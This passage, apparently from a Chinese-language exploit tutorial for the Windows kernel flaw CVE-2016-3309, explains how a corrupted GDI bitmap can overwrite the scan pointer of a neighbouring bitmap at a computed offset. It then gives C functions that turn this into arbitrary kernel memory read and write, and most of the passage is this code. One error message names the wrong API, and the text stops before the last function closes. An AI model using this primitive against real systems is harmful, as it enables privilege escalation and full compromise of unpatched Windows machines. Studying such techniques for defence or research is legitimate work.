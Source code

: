   
现在得到了可以修改0xFFFFFFFF大小的BitMap对象的hWorker，只需要用它修改相邻内存页的BitMap对象的pvScan0就可以实现任意地址读写。hWorker的pvScan0所指地址为hWorker的BitMap对象之后，所以相邻内存页的pvScan0相对于它的偏移就是0x1D0(0x1000 - 0xBC0 - 0x10 -0x260) + 0xBC0 + 0x10 + 0x18 + 0x38 = 0x1D0 + 0xC20 = 0xDF8。  
  
  
所以通过SetBitmapBits修改hWorker偏移0xDF8处的内存就可以修改相邻内存页BitMap对象的pvScan0，此时就可以完成任意地址读写，相应的代码如下：  
```
BOOL SetAddress_CVE_2016_3309(ULONG64 ulAddress)
{
    BOOL bRet = TRUE;

    pBuf_2016_3309[0xDF8 / 8] = ulAddress;

    if (SetBitmapBits(g_hWorker_2016_3309, 0x1000, pBuf_2016_3309) < 0x1000)
    {
        ShowError("SetBitmapBits", GetLastError());
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
}

BOOL BitMapRead_CVE_2016_3309(ULONG64 ulAddress, PBYTE pRes, DWORD dwSize)
{
    BOOL bRet = TRUE;

    if (!SetAddress_CVE_2016_3309(ulAddress))
    {
        bRet = FALSE;
        goto exit;
    }

    if (GetBitmapBits(g_hManager_2016_3309, dwSize, pRes) < dwSize)
    {
        ShowError("GetBitmapBits", GetLastError());
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
}

BOOL BitMapWrite_CVE_2016_3309(ULONG64 ulAddress, PBYTE pRes, DWORD dwSize)
{
    BOOL bRet = TRUE;

    if (!SetAddress_CVE_2016_3309(ulAddress))
    {
        bRet = FALSE;
        goto exit;
    }

    if (SetBitmapBits(g_hManager_2016_3309, dwSize, pRes) < dwSize)
    {
        ShowError("GetBitmapBits", GetLastError());
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
```